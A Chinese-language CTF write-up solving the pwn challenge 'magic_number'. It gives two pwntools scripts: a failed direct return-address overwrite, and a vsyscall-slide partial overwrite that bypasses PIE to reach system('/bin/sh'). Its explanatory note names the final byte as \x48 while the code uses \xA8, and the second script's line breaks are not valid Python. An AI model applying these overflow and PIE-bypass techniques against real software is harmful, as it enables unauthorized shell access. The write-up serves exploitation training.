

# magic_number

### 先看看题目 
首先file一下

然后查看保护

emm有PIE。。。应该是莫得动态调试了  

再打开IDA查一波  

看了看main函数，woc这么简单 ~~我那时候把PIE忘了~~  
然后我就写了这个脚本
### 脚本1
```python
#!/usr/bin/python
#coding:utf-8

from pwn import *
context.log_level = 'debug'
io = process('./magic_number')

system_addr = 0x0AA8
payload = cyclic(0x38) + p64(system_addr)

io.sendlineafter("Your Input :",payload)
io.interactive()
```
脑子是个好东西 ~~可惜我没有~~  
### vsyscall利用简介
之后我在看了看保护才想起来有PIE，然后就想起了前几天刚学的vsyscall的滑动绕过  
由于这三个系统调用都是无参数传参，而且地址固定，我们可以用它来绕过PIE，可以把它们就看成是一个ret指令，我们就可以用它不停地“滑”到下一条栈地址。  
### 代码2
```python3
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level = 'debug'
io=process('./magic_number')
#gdb.attach(p)
payload = cyclic(0x38)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+p64(0xFFFFFFFFFF600400)
                +p64(0xFFFFFFFFFF600400)+b'\xA8'
io.sendafter("Your Input :",payload)
io.interactive()

```
#### 注:
1、0xFFFFFFFFFF600400 是 vsyscall 中的 time 函数的地址  
2、\x48 是main函数中执行 system("/bin/sh") 函数的地址的后两位